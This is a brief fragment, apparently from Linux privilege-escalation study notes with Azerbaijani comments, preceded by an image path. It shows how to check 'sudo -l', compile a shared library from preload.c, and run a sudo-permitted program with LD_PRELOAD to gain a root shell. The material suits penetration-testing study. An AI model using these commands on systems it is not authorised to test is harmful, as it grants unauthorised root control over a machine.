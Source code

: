 ## eger kernelin bu versiyasidirsa 
## daha sonra biz (sudo -l) emrini icra edirik
## misal ucun find emrini root kimi icazemiz varsa 
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
## ardiyca asaqdaki kommandi veririk    
    sudo LD_PRELOAD=/tmp/preload.so program-name-here
## artiq biz Root olduq
